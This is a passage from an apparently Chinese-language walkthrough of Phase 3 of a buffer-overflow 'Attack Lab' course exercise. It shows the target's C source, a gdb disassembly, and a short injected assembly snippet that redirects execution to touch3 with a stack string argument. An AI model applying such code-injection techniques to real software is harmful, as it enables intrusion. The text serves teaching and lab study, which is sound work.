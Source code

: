 
## Phase 3
Phase2中我给%rdi寄存器赋值传参,而这个问题需要以字符指针传参.
```C
void touch3(char *sval){
	vlevel = 3;
	if(hexmatch(cookie, sval)){
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	}
	else{
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}

int hexmatch(unsigned val, char *sval){
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```
查看 `touch3()`函数所在位置
```shell
(gdb) disassemble  touch3
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    call   0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   0x000000000040191a <+32>:    mov    %rbx,%rdx
   0x000000000040191d <+35>:    mov    $0x403138,%esi
   0x0000000000401922 <+40>:    mov    $0x1,%edi
   0x0000000000401927 <+45>:    mov    $0x0,%eax
   0x000000000040192c <+50>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:    mov    $0x3,%edi
   0x0000000000401936 <+60>:    call   0x401c8d <validate>
   0x000000000040193b <+65>:    jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:    mov    %rbx,%rdx
   0x0000000000401940 <+70>:    mov    $0x403160,%esi
   0x0000000000401945 <+75>:    mov    $0x1,%edi
   0x000000000040194a <+80>:    mov    $0x0,%eax
   0x000000000040194f <+85>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:    mov    $0x3,%edi
   0x0000000000401959 <+95>:    call   0x401d4f <fail>
   0x000000000040195e <+100>:   mov    $0x0,%edi
   0x0000000000401963 <+105>:   call   0x400e40 <exit@plt>
End of assembler dump.
```
不妨以栈顶指针为sval,构造注入代码
```
Phase3:
	mov    $0x5561dc78, %rdi
	mov    $0x4018fa,%r8
	sub    $0x28,%rsp
	call   *%r8
```